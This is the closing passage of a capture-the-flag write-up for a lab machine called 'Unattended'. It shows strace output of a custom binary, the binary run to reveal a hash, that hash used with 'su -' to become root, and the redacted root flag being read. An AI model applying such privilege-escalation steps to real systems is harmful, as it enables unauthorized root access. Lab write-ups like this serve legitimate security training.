      fstat(3, {st_mode=S_IFREG|0644, st_size=37, ...}) = 0
      mmap(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7f4c5652d000
      read(3, "C0B604A4-FE6D-4C14-A791-BEB3769F"..., 4096) = 37
      close(3)                                = 0
      munmap(0x7f4c5652d000, 4096)            = 0
      fstat(1, {st_mode=S_IFCHR|0620, st_rdev=makedev(0x88, 0x4), ...}) = 0
      mmap(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7f4c5652d000
      write(1, "**132f93ab100671dcb263acaf5dc95d82** "..., 40132f93ab100671dcb263acaf5dc95d8260e8b7c6) = 40
      exit_group(0)                           = ?
      +++ exited with 0 +++
    
      [ 10.10.14.7/23 ] [ /dev/pts/4 ] [Unattended/init/sbin]
      → ./uinitrd c0m3s3f0ss34nt4n1
      **132f93ab100671dcb263acaf5dc95d8260e8b7c6**
    

And here at the bottom we see a certain hash so let's try it to see if it is the root password: 
    
    
      guly@unattended:~$ su -
      su -
      Password: 132f93ab100671dcb263acaf5dc95d8260e8b7c6
    
      root@unattended:~# id
      id
      uid=0(root) gid=0(root) groups=0(root)
      root@unattended:~# cat root.txt
      cat root.txt
      55XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And that's it ! We have been able to print out the root flag. 

## **Conclusion**

Here we can see the progress graph :

